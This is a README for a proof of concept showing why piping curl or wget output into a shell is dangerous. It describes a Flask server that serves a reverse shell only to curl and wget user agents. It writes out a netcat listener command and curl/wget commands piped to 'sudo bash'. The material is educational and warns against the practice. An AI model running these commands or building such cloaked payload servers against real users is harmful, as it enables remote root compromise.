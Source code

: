 # piping-to-shell-PoC
Proof of Concept why piping from curl/wget to shell is asking for trouble. Flask is used as the web server and check if the user agent contains "Wget" or "curl". By default none of them mask the user-agent field. If the user agent is not wget/curl a dummy script is shown. Else, if bash is run as root a reverse shell will spawn.

## Demonstration
* First of all, setup the server.
	* `python3 server.py`
* In a browser and access `/script.sh`. The dummy script should appear.
	* ![Browser](./images/browser_output.png)
* Open a new terminal and setup a listener for the reverse shell.
	* `nc -nvlp 5555`
* In a new terminal use wget or curl to download the file and pipe it to bash.
	* `wget -O- localhost:5000/script.sh | sudo bash`
	OR
	* `curl localhost:5000/script.sh | sudo bash `


## Remedy

Don't pipe into shell or at least curl/wget the file before executing it :).
